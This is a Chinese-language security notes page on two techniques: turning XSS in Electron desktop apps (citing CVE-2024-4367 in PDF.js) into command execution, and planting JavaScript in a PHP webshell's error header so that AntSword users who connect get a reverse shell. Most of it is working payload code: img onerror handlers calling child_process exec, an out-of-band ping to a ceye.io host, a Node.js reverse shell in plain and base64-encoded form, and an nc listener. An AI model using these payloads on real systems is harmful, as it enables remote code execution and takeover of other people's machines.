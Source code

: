 ## **electron开发的nodejs环境工具**
利用漏洞如CVE-2024-4367 - 在 PDF.js组件执行xss导致命令执行，反弹shell等。

若能xss直接rce：
```
<img src=x onerror="const{exec}=require('child_process');exec('start calc.exe');">
<img src=x onerror="const{exec}=require('child_process');exec('ping rce.2qytvx.ceye.io');">
const{exec}=require('child_process');exec('ping rce.2qytvx.ceye.io');
```
查看桌面软件是不是Electron开发：一般看安装包里文件 <https://blog.csdn.net/smileyan9/article/details/130383406>

闭合桌面软件标签，RCE：
```
<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>">
```
![](.topwrite/assets/image_1742556925644.png)



^
## **Antsword蚁剑反制**
蓝队通过修改后门的代码实现获得蚁剑使用者的权限
复现环境：

* 蓝队：Linux Web
* 红队：Windows Antsword

原理：修改对方的一句话木马代码内容，嵌入js代码，蚁剑内置有nodejs运行环境。
```
<?php header('HTTP/1.1 500 <img src=# onerror=alert(1)>');
```

上线：使用Nodejs 代码反弹shell

```
var net = require("net"), sh = require("child_process").exec("cmd.exe");
var client = new net.Socket();
client.connect(xx, "xx.xx.xx.xx",function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});
```

Nodejs 代码：

> 编码组合后：

```
<?php 
header("HTTP/1.1 500 Not <img src=# onerror='eval(new Buffer(`dmFyIG5ldCA9IHJlcXVpcmUoIm5ldCIpLCBzaCA9IHJlcXVpcmUoImNoaWxkX3Byb2Nlc3MiKS5leGVjKCJjbWQuZXhlIik7CnZhciBjbGllbnQgPSBuZXcgbmV0LlNvY2tldCgpOwpjbGllbnQuY29ubmVjdCgxMDA4NiwgIjEyNy4wLjAuMSIsIGZ1bmN0aW9uKCl7Y2xpZW50LnBpcGUoc2guc3RkaW4pO3NoLnN0ZG91dC5waXBlKGNsaWVudCk7c2guc3RkZXJyLnBpcGUoY2xpZW50KTt9KTs=`,`base64`).toString())'>");
```

然后启用监听

```
nc -vlp 10086
```

当红队继续使用蚁剑连接后门时，拿到红队机器权限

> 攻击者在连接shell时，会爆红色错误
> 权限取决于蚁剑使用者的权限
> 关闭蚁剑也不会掉权限


